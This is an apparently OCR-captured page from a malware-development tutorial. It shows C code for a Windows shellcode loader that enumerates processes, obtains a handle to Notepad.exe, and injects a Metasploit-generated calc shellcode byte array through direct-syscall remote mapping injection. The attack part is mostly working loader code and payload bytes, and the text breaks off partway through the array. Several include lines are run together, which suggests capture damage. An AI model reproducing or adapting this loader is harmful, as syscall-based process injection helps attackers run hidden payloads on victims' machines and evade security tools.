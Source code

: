```
		}

		// If NextEntryOffset is 0, we reached the end of the array
		if (!SystemProcInfo->NextEntryOffset)
			break;

		// Moving to the next element in the array
		SystemProcInfo = (PSYSTEM_PROCESS_INFORMATION)((ULONG_PTR)SystemProcInfo + SystemProcInfo->NextEntryOffset);
	}

	// Freeing using the initial address
	HeapFree(GetProcessHeap(), 0, pValueToFree);

	// Checking if we got the target's process handle
	if (*pdwPid == NULL || *phProcess == NULL)
		return FALSE;
	else
		return TRUE;
}

```
### **Main Function**

To test the code so far, create `main.c` which will contain the entry point function of the loader along with the usual Msfvenom calc payload.

The following points briefly explain the main function:

* The `InitializeSyscalls` function is the first function to be called. All other functions depend on it to initialize the syscall structure.
* If `TARGET_PROCESS` is defined, `GetRemoteProcessHandle` is called to retrieve the target process handle and pass its output to `RemoteMappingInjectionViaSyscalls`.
* If `TARGET_PROCESS` is not defined, the code directly calls `RemoteMappingInjectionViaSyscalls` with a pseudo value to the local process handle (`1`), instructing it to inject the payload locally.

**main.c**


```
#include <Windows.h>#include <stdio.h>#include "Structs.h"#include "Common.h"// comment to inject to the local process
//
#define TARGET_PROCESS	L"Notepad.exe"// x64 calc metasploit
unsigned char Payload [] = {
	0xFC, 0x48, 0x83, 0xE4, 0xF0, 0xE8, 0xC0, 0x00, 0x00, 0x00, 0x41, 0x51,
	0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xD2, 0x65, 0x48, 0x8B, 0x52,
	0x60, 0x48, 0x8B, 0x52, 0x18, 0x48, 0x8B, 0x52, 0x20, 0x48, 0x8B, 0x72,
	0x50, 0x48, 0x0F, 0xB7, 0x4A, 0x4A, 0x4D, 0x31, 0xC9, 0x48, 0x31, 0xC0,
	0xAC, 0x3C, 0x61, 0x7C, 0x02, 0x2C, 0x20, 0x41, 0xC1, 0xC9, 0x0D, 0x41,
	0x01, 0xC1, 0xE2, 0xED, 0x52, 0x41, 0x51, 0x48, 0x8B, 0x52, 0x20, 0x8B,
	0x42, 0x3C, 0x48, 0x01, 0xD0, 0x8B, 0x80, 0x88, 0x00, 0x00, 0x00, 0x48,
	0x85, 0xC0, 0x74, 0x67, 0x48, 0x01, 0xD0, 0x50, 0x8B, 0x48, 0x18, 0x44,
	0x8B, 0x40, 0x20, 0x49, 0x01, 0xD0, 0xE3, 0x56, 0x48, 0xFF, 0xC9, 0x41,
	0x8B, 0x34, 0x88, 0x48, 0x01, 0xD6, 0x4D, 0x31, 0xC9, 0x48, 0x31, 0xC0,
	0xAC, 0x41, 0xC1, 0xC9, 0x0D, 0x41, 0x01, 0xC1, 0x38, 0xE0, 0x75, 0xF1,
	0x4C, 0x03, 0x4C, 0x24, 0x08, 0x45, 0x39, 0xD1, 0x75, 0xD8, 0x58, 0x44,
	0x8B, 0x40, 0x24, 0x49, 0x01, 0xD0, 0x66, 0x41, 0x8B, 0x0C, 0x48, 0x44,
	0x8B, 0x40, 0x1C, 0x49, 0x01, 0xD0, 0x41, 0x8B, 0x04, 0x88, 0x48, 0x01,
	0xD0, 0x41, 0x58, 0x41, 0x58, 0x5E, 0x59, 0x5A, 0x41, 0x58, 0x41, 0x59,
	0x41, 0x5A, 0x48, 0x83, 0xEC, 0x20, 0x41, 0x52, 0xFF, 0xE0, 0x58, 0x41,
	0x59, 0x5A, 0x48, 0x8B, 0x12, 0xE9, 0x57, 0xFF, 0xFF, 0xFF, 0x5D, 0x48,
	0xBA, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0x8D, 0x8D,
	0x01, 0x01, 0x00, 0x00, 0x41, 0xBA, 0x31, 0x8B, 0x6F, 0x87, 0xFF, 0xD5,
	0xBB, 0xE0, 0x1D, 0x2A, 0x0A, 0x41, 0xBA, 0xA6, 0x95, 0xBD, 0x9D, 0xFF,
```